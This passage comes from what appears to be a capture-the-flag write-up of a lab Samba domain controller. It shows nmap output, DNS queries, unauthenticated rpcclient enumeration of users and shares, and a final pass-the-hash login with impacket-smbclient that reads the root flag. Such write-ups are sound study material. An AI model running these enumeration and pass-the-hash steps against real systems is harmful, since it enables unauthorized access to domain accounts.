| SHA-1:   0f21 c144 a73b c61d cfa5 e48c 56c7 9d27 4c01 2d88
| SHA-256: 8c31 865a 2de3 2015 1a04 bc8e a683 c6fb f424 1a58 9e96 2b89 b475 cbdc 8daf 8586
| -----BEGIN CERTIFICATE-----
| MIIFqjCCA5KgAwIBAgIEp0TaZTANBgkqhkiG9w0BAQsFADBzMR0wGwYDVQQKExRT
| YW1iYSBBZG1pbmlzdHJhdGlvbjE3MDUGA1UECxMuU2FtYmEgLSB0ZW1wb3Jhcnkg
| YXV0b2dlbmVyYXRlZCBDQSBjZXJ0aWZpY2F0ZTEZMBcGA1UEAxMQREMudW5pbnRl
| bmRlZC52bDAeFw0yNDAyMjQxOTMzNTlaFw0yNjAxMjQxOTMzNTlaMHUxHTAbBgNV
| BAoTFFNhbWJhIEFkbWluaXN0cmF0aW9uMTkwNwYDVQQLEzBTYW1iYSAtIHRlbXBv
| cmFyeSBhdXRvZ2VuZXJhdGVkIEhPU1QgY2VydGlmaWNhdGUxGTAXBgNVBAMTEERD
| LnVuaW50ZW5kZWQudmwwggIiMA0GCSqGSIb3DQEBAQUAA4ICDwAwggIKAoICAQCg
| 7wUlDq0Dde3+T4izCq2l6XulttkTCoRQ6aZHLBOM7P1/2Th7HI4OQnVjdIYDhsiY
| oZJMUzbrNVPn9u6Jwj+R0MILVxb8JC9tjRMMdekK8Og8qrOEE2Ywu8lZzuFYk5+3
| eZKi4YWhDtwJv7VmmPsMhEvTZzSFcYq5X3uT2fTDmME3bVTDbv6SQZVaqvWGIXSe
| KIK+JDBKqc9QTyvFTDWQVq2azrPhQ/KPM4RZvJjbYoE80IPpYfFsDxISE1sEBywz
| 0uJhkhs4vOiPUliGXAhB/FmF+d1+/uxZ34gqTXi4CNZkRrmFy2rXnBRlFjjCZEnl
| Ir3VsFFH5B0hh3lo02yySlpLpcue770FkWoyLOHQAzDmtr74IgU1+S+pOiLYKiI2
| Onnu4hLOMALVgJ9P+0Hbl2ORsI2addQcL0CRpvoz5NueWUoIGlD1ItjrgspC5cAX
| EgKw0PhpYikCwFikNdrsiwEr9cSYTEx8EfcKQf5sgNidv0tVg3VDs/Y1vbSVufag
| lPvVmHCaLilnGq8Mo1HGjkg1mcW7Kgxy0k5WTsnhBcXNbu3+ihAJG06gaO3iv5gO
| UOE0u6c2ZpmfF+KPe6WaORCGI28QN1XLZvmaYfotWSVY1VGKCJAcKXoTfYDMyIem
| Hu14FdwFUvFyq7I8RffiO6BITW4RWa9KvftRfFh6VQIDAQABo0QwQjAMBgNVHRMB
| Af8EAjAAMBMGA1UdJQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBR9fWQgQddm0Opp
| Jr9Sd6xqu0+0CTANBgkqhkiG9w0BAQsFAAOCAgEAjknUxQ9l1mH7HHesVTJYbFjZ
| nfv/H7qCAWbB32Z9QT3HCBtN90EKyMQwSMtvLBl4uGs8uDttoNl7cj+TLpJ6whvC
| kHuIkaiSiOVJNFL3mFtIGX0ZHgqA6c54VhFNaLqWo7UN35fN8+HdbFe0+0UqXy0u
| JPcZT5BUY1pED0E/nyV+wtUuEc34S1i009qBhBKc9cPYbeafhs6JFRgea9bHfd/q
| FA6oDyWfoRH0KZL9KqvDGGIydsSDcjsf1fuANf10RhC1w7xQmGtFlHF2ZUbsI3bj
| QIAe3Vt/f71kVGfm2FqK5IJA1lJhXjEUoIwx+JCaL1DVVcK1p9nv01YJn2tIIBj/
| UhSXEKWyadtH7FrjPozR2053DosYP14VPz33gLILoq7JEzPVPJBtc13W6Psg1HcG
| 1AbM0dXej4/m0X6OjQgC//YDaUaZeM8a9sHca18Lw7zp2/zuw8Sm9AMK8hq1xjgH
| u57HFu0TmJINCxxfKVD7r4p7Auhaq4+usXNtCYkpDHBwle44Y4qBoofsLSHoov0I
| SsJqiBk1PqZKu5GkvqPaiYd78Sx1+W34kJG14T/FZXho2uQRBzY2GkFQYg2nkDNp
| X8op47YJDpZZa8AJQzfmPbZUKaXNNwpQ4c1R76L3A/jMaxp9U1xsubYl8Qfuiqhh
| ad0oZg1iIDGRdPWaWa8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap         syn-ack ttl 63 (Anonymous bind OK)
| ssl-cert: Subject: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated HOST certificate
| Issuer: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated CA certificate
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-24T19:33:59
| Not valid after:  2026-01-24T19:33:59
| MD5:     6895 e6d1 03d5 bd19 d1c4 7247 7229 13c2
| SHA-1:   0f21 c144 a73b c61d cfa5 e48c 56c7 9d27 4c01 2d88
| SHA-256: 8c31 865a 2de3 2015 1a04 bc8e a683 c6fb f424 1a58 9e96 2b89 b475 cbdc 8daf 8586
| -----BEGIN CERTIFICATE-----
| MIIFqjCCA5KgAwIBAgIEp0TaZTANBgkqhkiG9w0BAQsFADBzMR0wGwYDVQQKExRT
| YW1iYSBBZG1pbmlzdHJhdGlvbjE3MDUGA1UECxMuU2FtYmEgLSB0ZW1wb3Jhcnkg
| YXV0b2dlbmVyYXRlZCBDQSBjZXJ0aWZpY2F0ZTEZMBcGA1UEAxMQREMudW5pbnRl
| bmRlZC52bDAeFw0yNDAyMjQxOTMzNTlaFw0yNjAxMjQxOTMzNTlaMHUxHTAbBgNV
| BAoTFFNhbWJhIEFkbWluaXN0cmF0aW9uMTkwNwYDVQQLEzBTYW1iYSAtIHRlbXBv
| cmFyeSBhdXRvZ2VuZXJhdGVkIEhPU1QgY2VydGlmaWNhdGUxGTAXBgNVBAMTEERD
| LnVuaW50ZW5kZWQudmwwggIiMA0GCSqGSIb3DQEBAQUAA4ICDwAwggIKAoICAQCg
| 7wUlDq0Dde3+T4izCq2l6XulttkTCoRQ6aZHLBOM7P1/2Th7HI4OQnVjdIYDhsiY
| oZJMUzbrNVPn9u6Jwj+R0MILVxb8JC9tjRMMdekK8Og8qrOEE2Ywu8lZzuFYk5+3
| eZKi4YWhDtwJv7VmmPsMhEvTZzSFcYq5X3uT2fTDmME3bVTDbv6SQZVaqvWGIXSe
| KIK+JDBKqc9QTyvFTDWQVq2azrPhQ/KPM4RZvJjbYoE80IPpYfFsDxISE1sEBywz
| 0uJhkhs4vOiPUliGXAhB/FmF+d1+/uxZ34gqTXi4CNZkRrmFy2rXnBRlFjjCZEnl
| Ir3VsFFH5B0hh3lo02yySlpLpcue770FkWoyLOHQAzDmtr74IgU1+S+pOiLYKiI2
| Onnu4hLOMALVgJ9P+0Hbl2ORsI2addQcL0CRpvoz5NueWUoIGlD1ItjrgspC5cAX
| EgKw0PhpYikCwFikNdrsiwEr9cSYTEx8EfcKQf5sgNidv0tVg3VDs/Y1vbSVufag
| lPvVmHCaLilnGq8Mo1HGjkg1mcW7Kgxy0k5WTsnhBcXNbu3+ihAJG06gaO3iv5gO
| UOE0u6c2ZpmfF+KPe6WaORCGI28QN1XLZvmaYfotWSVY1VGKCJAcKXoTfYDMyIem
| Hu14FdwFUvFyq7I8RffiO6BITW4RWa9KvftRfFh6VQIDAQABo0QwQjAMBgNVHRMB
| Af8EAjAAMBMGA1UdJQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBR9fWQgQddm0Opp
| Jr9Sd6xqu0+0CTANBgkqhkiG9w0BAQsFAAOCAgEAjknUxQ9l1mH7HHesVTJYbFjZ
| nfv/H7qCAWbB32Z9QT3HCBtN90EKyMQwSMtvLBl4uGs8uDttoNl7cj+TLpJ6whvC
| kHuIkaiSiOVJNFL3mFtIGX0ZHgqA6c54VhFNaLqWo7UN35fN8+HdbFe0+0UqXy0u
| JPcZT5BUY1pED0E/nyV+wtUuEc34S1i009qBhBKc9cPYbeafhs6JFRgea9bHfd/q
| FA6oDyWfoRH0KZL9KqvDGGIydsSDcjsf1fuANf10RhC1w7xQmGtFlHF2ZUbsI3bj
| QIAe3Vt/f71kVGfm2FqK5IJA1lJhXjEUoIwx+JCaL1DVVcK1p9nv01YJn2tIIBj/
| UhSXEKWyadtH7FrjPozR2053DosYP14VPz33gLILoq7JEzPVPJBtc13W6Psg1HcG
| 1AbM0dXej4/m0X6OjQgC//YDaUaZeM8a9sHca18Lw7zp2/zuw8Sm9AMK8hq1xjgH
| u57HFu0TmJINCxxfKVD7r4p7Auhaq4+usXNtCYkpDHBwle44Y4qBoofsLSHoov0I
| SsJqiBk1PqZKu5GkvqPaiYd78Sx1+W34kJG14T/FZXho2uQRBzY2GkFQYg2nkDNp
| X8op47YJDpZZa8AJQzfmPbZUKaXNNwpQ4c1R76L3A/jMaxp9U1xsubYl8Qfuiqhh
| ad0oZg1iIDGRdPWaWa8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap     syn-ack ttl 63 (Anonymous bind OK)
| ssl-cert: Subject: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated HOST certificate
| Issuer: commonName=DC.unintended.vl/organizationName=Samba Administration/organizationalUnitName=Samba - temporary autogenerated CA certificate
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-24T19:33:59
| Not valid after:  2026-01-24T19:33:59
| MD5:     6895 e6d1 03d5 bd19 d1c4 7247 7229 13c2
| SHA-1:   0f21 c144 a73b c61d cfa5 e48c 56c7 9d27 4c01 2d88
| SHA-256: 8c31 865a 2de3 2015 1a04 bc8e a683 c6fb f424 1a58 9e96 2b89 b475 cbdc 8daf 8586
| -----BEGIN CERTIFICATE-----
| MIIFqjCCA5KgAwIBAgIEp0TaZTANBgkqhkiG9w0BAQsFADBzMR0wGwYDVQQKExRT
| YW1iYSBBZG1pbmlzdHJhdGlvbjE3MDUGA1UECxMuU2FtYmEgLSB0ZW1wb3Jhcnkg
| YXV0b2dlbmVyYXRlZCBDQSBjZXJ0aWZpY2F0ZTEZMBcGA1UEAxMQREMudW5pbnRl
| bmRlZC52bDAeFw0yNDAyMjQxOTMzNTlaFw0yNjAxMjQxOTMzNTlaMHUxHTAbBgNV
| BAoTFFNhbWJhIEFkbWluaXN0cmF0aW9uMTkwNwYDVQQLEzBTYW1iYSAtIHRlbXBv
| cmFyeSBhdXRvZ2VuZXJhdGVkIEhPU1QgY2VydGlmaWNhdGUxGTAXBgNVBAMTEERD
| LnVuaW50ZW5kZWQudmwwggIiMA0GCSqGSIb3DQEBAQUAA4ICDwAwggIKAoICAQCg
| 7wUlDq0Dde3+T4izCq2l6XulttkTCoRQ6aZHLBOM7P1/2Th7HI4OQnVjdIYDhsiY
| oZJMUzbrNVPn9u6Jwj+R0MILVxb8JC9tjRMMdekK8Og8qrOEE2Ywu8lZzuFYk5+3
| eZKi4YWhDtwJv7VmmPsMhEvTZzSFcYq5X3uT2fTDmME3bVTDbv6SQZVaqvWGIXSe
| KIK+JDBKqc9QTyvFTDWQVq2azrPhQ/KPM4RZvJjbYoE80IPpYfFsDxISE1sEBywz
| 0uJhkhs4vOiPUliGXAhB/FmF+d1+/uxZ34gqTXi4CNZkRrmFy2rXnBRlFjjCZEnl
| Ir3VsFFH5B0hh3lo02yySlpLpcue770FkWoyLOHQAzDmtr74IgU1+S+pOiLYKiI2
| Onnu4hLOMALVgJ9P+0Hbl2ORsI2addQcL0CRpvoz5NueWUoIGlD1ItjrgspC5cAX
| EgKw0PhpYikCwFikNdrsiwEr9cSYTEx8EfcKQf5sgNidv0tVg3VDs/Y1vbSVufag
| lPvVmHCaLilnGq8Mo1HGjkg1mcW7Kgxy0k5WTsnhBcXNbu3+ihAJG06gaO3iv5gO
| UOE0u6c2ZpmfF+KPe6WaORCGI28QN1XLZvmaYfotWSVY1VGKCJAcKXoTfYDMyIem
| Hu14FdwFUvFyq7I8RffiO6BITW4RWa9KvftRfFh6VQIDAQABo0QwQjAMBgNVHRMB
| Af8EAjAAMBMGA1UdJQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBR9fWQgQddm0Opp
| Jr9Sd6xqu0+0CTANBgkqhkiG9w0BAQsFAAOCAgEAjknUxQ9l1mH7HHesVTJYbFjZ
| nfv/H7qCAWbB32Z9QT3HCBtN90EKyMQwSMtvLBl4uGs8uDttoNl7cj+TLpJ6whvC
| kHuIkaiSiOVJNFL3mFtIGX0ZHgqA6c54VhFNaLqWo7UN35fN8+HdbFe0+0UqXy0u
| JPcZT5BUY1pED0E/nyV+wtUuEc34S1i009qBhBKc9cPYbeafhs6JFRgea9bHfd/q
| FA6oDyWfoRH0KZL9KqvDGGIydsSDcjsf1fuANf10RhC1w7xQmGtFlHF2ZUbsI3bj
| QIAe3Vt/f71kVGfm2FqK5IJA1lJhXjEUoIwx+JCaL1DVVcK1p9nv01YJn2tIIBj/
| UhSXEKWyadtH7FrjPozR2053DosYP14VPz33gLILoq7JEzPVPJBtc13W6Psg1HcG
| 1AbM0dXej4/m0X6OjQgC//YDaUaZeM8a9sHca18Lw7zp2/zuw8Sm9AMK8hq1xjgH
| u57HFu0TmJINCxxfKVD7r4p7Auhaq4+usXNtCYkpDHBwle44Y4qBoofsLSHoov0I
| SsJqiBk1PqZKu5GkvqPaiYd78Sx1+W34kJG14T/FZXho2uQRBzY2GkFQYg2nkDNp
| X8op47YJDpZZa8AJQzfmPbZUKaXNNwpQ4c1R76L3A/jMaxp9U1xsubYl8Qfuiqhh
| ad0oZg1iIDGRdPWaWa8=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
49152/tcp open  msrpc        syn-ack ttl 63 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 63 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 63 Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.98%I=7%D=3/19%Time=69BBD0E2%P=x86_64-pc-linux-gnu%r(DNSS
SF:tatusRequestTCP,E,"\0\x0c\0\0\x90\x04\0\0\0\0\0\0\0\0");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port88-TCP:V=7.98%I=7%D=3/19%Time=69BBD0DD%P=x86_64-pc-linux-gnu%r(Kerb
SF:eros,68,"\0\0\0d~b0`\xa0\x03\x02\x01\x05\xa1\x03\x02\x01\x1e\xa4\x11\x1
SF:8\x0f20260319103257Z\xa5\x05\x02\x03\x014\x80\xa6\x03\x02\x01\x06\xa9\x
SF:04\x1b\x02NM\xaa\x170\x15\xa0\x03\x02\x01\0\xa1\x0e0\x0c\x1b\x06krbtgt\
SF:x1b\x02NM\xab\x16\x1b\x14No\x20client\x20in\x20request");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=3/19%OT=22%CT=%CU=35458%PV=Y%DS=2%DC=T%G=N%TM=69BBD11C
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=10A%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11
OS:NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 9.337 days (since Tue Mar 10 03:29:20 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=266 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: DC, NetBIOS user: <unknown>, NetBIOS MAC: b0:3a:3b:84:a8:7f (unknown)
| Names:
|   DC<00>               Flags: <unique><active>
|   DC<03>               Flags: <unique><active>
|   DC<20>               Flags: <unique><active>
|   UNINTENDED<1b>       Flags: <unique><active>
|   UNINTENDED<1c>       Flags: <group><active>
|   UNINTENDED<00>       Flags: <group><active>
|   __SAMBA__<00>        Flags: <group><active><permanent>
|   __SAMBA__<20>        Flags: <group><active><permanent>
| Statistics:
|   b0 3a 3b 84 a8 7f 00 00 19 c0 72 2c 55 87 00 00 9b
|   9b d7 84 3b 00 00 7f a8 84 3b 85 78 7f a8 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time: 
|   date: 2026-03-19T10:33:53
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 12262/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19478/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 43681/udp): CLEAN (Failed to receive data)
|   Check 4 (port 38096/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s

OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=3/19%OT=22%CT=%CU=35458%PV=Y%DS=2%DC=T%G=N%TM=69BBD11C
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=10A%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11
OS:NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 9.337 days (since Tue Mar 10 03:29:20 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=266 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: DC, NetBIOS user: <unknown>, NetBIOS MAC: b0:3a:3b:84:a8:7f (unknown)
| Names:
|   DC<00>               Flags: <unique><active>
|   DC<03>               Flags: <unique><active>
|   DC<20>               Flags: <unique><active>
|   UNINTENDED<1b>       Flags: <unique><active>
|   UNINTENDED<1c>       Flags: <group><active>
|   UNINTENDED<00>       Flags: <group><active>
|   __SAMBA__<00>        Flags: <group><active><permanent>
|   __SAMBA__<20>        Flags: <group><active><permanent>
| Statistics:
|   b0 3a 3b 84 a8 7f 00 00 19 c0 72 2c 55 87 00 00 9b
|   9b d7 84 3b 00 00 7f a8 84 3b 85 78 7f a8 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb2-time: 
|   date: 2026-03-19T10:33:53
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 12262/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19478/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 43681/udp): CLEAN (Failed to receive data)
|   Check 4 (port 38096/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s

```

# DNS

There are some test that are worth checking on the DNS service one of them is trying to obtain any record possible. But it didn't help much:

```bash
└─$ dig any @10.13.38.57 DC.unintended.vl

; <<>> DiG 9.20.20-1-Debian <<>> any @10.13.38.57 DC.unintended.vl
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 32293
;; flags: qr aa rd ra ad; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;DC.unintended.vl.		IN	ANY

;; ANSWER SECTION:
DC.unintended.vl.	3600	IN	A	10.13.38.57

;; AUTHORITY SECTION:
unintended.vl.		3600	IN	SOA	dc.unintended.vl. hostmaster.unintended.vl. 29 900 600 86400 3600

;; Query time: 36 msec
;; SERVER: 10.13.38.57#53(10.13.38.57) (TCP)
;; WHEN: Thu Mar 19 11:43:37 CET 2026
;; MSG SIZE  rcvd: 100

```

Next, I tried to perform a DNS zone transfer but again withouth success.

```bash
─$ dig axfr @10.13.38.57 DC.unintended.vl

; <<>> DiG 9.20.20-1-Debian <<>> axfr @10.13.38.57 DC.unintended.vl
; (1 server found)
;; global options: +cmd
unintended.vl.		3600	IN	SOA	dc.unintended.vl. hostmaster.unintended.vl. 29 900 600 86400 3600
; Transfer failed.
                                                                  
```

Another step is performing a quick DNS bruteforce and here I can see more stuff going on, with a deep insight of custom VHOST running on the environment.



# LDAP

On the same way I remember seeing from the NMAP scan that it might be possible to interrogate LDAP from an unauthenticated standpoint? And after some test I was able to dump the users and the groups from the DC (unanthenticated) via the RPC socket:

```bash
└─$ rpcclient -U "" -N 10.13.38.57
rpcclient $> 
rpcclient: missing argument
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[juan] rid:[0x44f]
user:[abbie] rid:[0x450]
user:[cartor] rid:[0x451]
rpcclient $> enumdomains
name:[UNINTENDED] idx:[0x0]
name:[BUILTIN] idx:[0x1]
rpcclient $> createdomgroup
Usage: createdomgroup groupname [access mask]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Web Developers] rid:[0x452]
rpcclient $> 

```

Plus I can see the shares:

```bash
rpcclient $> netshareenumall
netname: sysvol
    remark:	
    path:	C:\var\lib\samba\sysvol
    password:	
netname: netlogon
    remark:	
    path:	C:\var\lib\samba\sysvol\unintended.vl\scripts
    password:	
netname: home
    remark:	Home Directories
    path:	C:\home\@unintended.vl
    password:	
netname: IPC$
    remark:	IPC Service (Samba 4.15.13-Ubuntu)
    path:	C:\tmp
    password:	
rpcclient $> 

```

Now I feel I need to move aside to the WEB server for a moment untill i gain access to a AD account.

# The last stretch

With the hash obtained on the DC I am now able to login on the machine via the Samba client and obtain the last flag.

```bash
└─$ impacket-smbclient unintended.vl/administrator@dc.unintended.vl -hashes :36fe241ea0eaa533d5fac8bd7fb6f8a3
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
sysvol
netlogon
home
IPC$
# cd home
[-] No share selected
# use home
# ls
drw-rw-rw-          0  Thu Jul 17 13:35:55 2025 .
drw-rw-rw-          0  Sat Feb 24 21:13:16 2024 ..
-rw-rw-rw-        807  Sat Feb 24 21:13:16 2024 .profile
drw-rw-rw-          0  Sat Feb 24 21:13:16 2024 .cache
-rw-rw-rw-       3771  Sat Feb 24 21:13:16 2024 .bashrc
-rw-rw-rw-        220  Sat Feb 24 21:13:16 2024 .bash_logout
-rw-rw-rw-         46  Tue May 20 08:04:08 2025 root.txt
# cat root.txt
UNINTENDED{a48803ba26e7c0f6511dd5047d9de963} 

# 

```